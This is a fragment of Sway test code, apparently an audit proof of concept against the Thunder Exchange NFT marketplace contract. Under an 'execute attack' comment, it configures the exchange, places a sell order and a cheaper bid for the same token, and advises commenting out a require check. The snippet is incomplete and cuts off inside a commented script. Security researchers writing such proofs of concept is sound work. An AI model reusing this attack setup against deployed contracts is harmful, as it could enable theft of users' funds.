 ```sway
    thunder_exch.set_execution_manager(execution_manger_contract);
    // thunder_exch.set_protocol_fee_recipient(Identity::Address::from(0xf9b8b6283d7fa5b672b530cbb84fcccb4ff8dc40f8176ef4544ddb1f1952ad07)); // diff from maker
    thunder_exch.set_royalty_manager(royalty_manger_contract);

    //----------------------execute attack --------------------------------//

    let caller = Address::from(0xf9b8b6283d7fa5b672b530cbb84fcccb4ff8dc40f8176ef4544ddb1f1952ad07);

    let extra_parameter = ExtraParams {
        extra_address_param: Address::zero(),
        extra_contract_param: ContractId::zero(),
        extra_u64_param: 0u64
    };

    let maker_order = MakerOrderInput {
     side: Side::Sell,
     maker:caller,
     collection: ContractId::from(0x7777777777777777777777777777777777777777777777777777777777777777),
     token_id: SubId::from(0x7777777777777777777777777777777777777777777777777777777777777778),
     price: 10u64,
     amount: 1u64,
     nonce: 1u64,
     strategy:stratgey_fixed,
     payment_asset: asset_to_add,
     expiration_range: 1000u64,
     extra_params: extra_parameter,
    };


    let bidder = Address::from(0xf9d8b6283d7fa5b672b530cbb84fcccb4ff8dc40f8176ef4544ddb1f1952ad07);



    
    let maker_order_bid = MakerOrderInput {
     side: Side::Buy,
     maker:bidder,
     collection: ContractId::from(0x7777777777777777777777777777777777777777777777777777777777777777),
     token_id: SubId::from(0x7777777777777777777777777777777777777777777777777777777777777778),
     price: 5u64, // offer 5 tokens (bid)
     amount: 1u64,
     nonce: 1u64,
     strategy:stratgey_fixed,
     payment_asset: asset_to_add,
     expiration_range: 1000u64,
     extra_params: extra_parameter,
    };


    thunder_exch.place_order(maker_order); // this could be called as .call {gas: 5000, asset_id : NFT_id, coins: 1 } but since this not possible in sway test then you need to comment the require check in the place_order--> order.sell
    thunder_exch.place_order(maker_order_bid);

/*
    script;

use interfaces::{
    pool_interface::Pool,
    thunder_exchange_interface::ThunderExchange,
```